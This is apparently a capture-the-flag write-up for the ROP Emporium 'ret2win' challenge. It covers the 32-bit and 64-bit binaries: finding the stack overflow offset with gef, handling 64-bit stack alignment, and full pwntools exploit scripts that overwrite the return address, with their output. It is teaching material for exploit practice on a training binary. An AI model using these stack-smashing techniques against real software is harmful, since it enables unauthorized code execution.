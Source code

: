 # ret2win
`64bit binary` `32bit binary` `ret2win`
<br>
<br>

## 32bit Binary (x86_64)
Let's start by listing the function in the binary using gef with the command `info fun`.

![image](https://github.com/Kiinzu/writeups/assets/115586420/bba87cce-30fe-4159-87a9-f7e8232a85dd)

Next step is finding the offset first using gdb with gef, we can just simply do `pattern create` then run the binary and paste the pattern created by gef as the input. It will return to us a `segmentation fault` which mean we successfully overflow the binary, now we are going to search for the `eip` offset by doing `pattern offset $eip`

![image](https://github.com/Kiinzu/writeups/assets/115586420/1af1783e-870f-4e63-98ab-98c34fccc2e3)

Once we know the offset, which is 44, we are going to make the final script to jump to the win. the final script would look like this.

```python
from pwn import *

binary = './ret2win32'
elf = context.binary = ELF(binary)

p = process(binary)

p.recv()

payload = b'a'*44
payload+= p32(elf.sym['ret2win'])

p.sendline(payload)
p.interactive()
```

And we got the flag

```tmux
[*] '/ROPemporium/ret2win/32bit/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './ret2win32': pid 2559
[*] Switching to interactive mode
> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$ 
```


## 64bit Binary (x86_64)
We are not going to repeat the first step like in the 32bit writeup, because the functions are the exact same, it just has different arch. We are going to jump to step 2, finding the offset using gdb-gef. The only difference here is, we are not going to work with the `eip` since it's 32 bit register, but we are going to work with `rip` and `rsp`. In 64 bit if we did an overflow, we want to look for the `rsp` since its top also point right before the `rip`, to put it more simple, if we manage to overflow it to `old RBP` we can rewrtie the `RIP (Instruction Pointer)`, it looks like this.
```
=========================
|          RIP          |
=========================  <- Offset, that allow us to write on the RIP
|       OLD RBP         |  
=========================
|                       |
|          RSP          |
|                       |
=========================

```
Back to finding the offset, we can use the same command but the pattern we want to search is `pattern search $rsp`. It looks like we found it at 40.

![image](https://github.com/Kiinzu/writeups/assets/115586420/4705e1e2-bc5b-45b2-8d32-88be2532a63b)

Before making the full payload, we need to find a `return gadget (ret)`, why? In 64 bit binary, before a `call` instruction is executed the stack need to be 16-byte aligned, else it will cause an error because the stack is not aligned. This can be avoided with 2 methods, first we can add an extra `ret` before the `call / jump`. Second we can skip the `push rbp` and jump to `mov rbp,rsp` instruction in that function, for the second method, we can use this `elf.sym['ret2win]+1` to tell the address we used is the +1 after `push rbp`. Worry not, in this write-up I provide you both the solution.

#### Solution 1 : using ret gadget
To get the `ret` gadget, we can use `ROPgadget` with the command 

```bash
ROPgadget --binary ret2win > output.txt
```

after that you can search in the `ret` gadget in the output.txt, the gadget will be this one `0x000000000040053e : ret`

```python
from pwn import *

binary = './ret2win'
elf = context.binary = ELF(binary)

p = process(binary)

payload = b'a'*40
payload+= p64(0x000000000040053e) #ret
payload+= p64(elf.sym['ret2win'])

p.sendline(payload)
p.interactive()
```

#### Solution 2 : using the [push rbp]+1 (mov rbp,rsp)
In the second solution, you just need to remove the `ret` gadget from the `solution 1` and put a `+1` after geting the `ret2win function address` 

```python
from pwn import *

binary = './ret2win'
elf = context.binary = ELF(binary)

p = process(binary)

payload = b'a'*40
payload+= p64(elf.sym['ret2win']+1)

p.sendline(payload)
p.interactive()
```

Either way we will get the flag
```bash
[*] '/ROPemporium/ret2win/64bit/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './ret2win': pid 5686
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
```
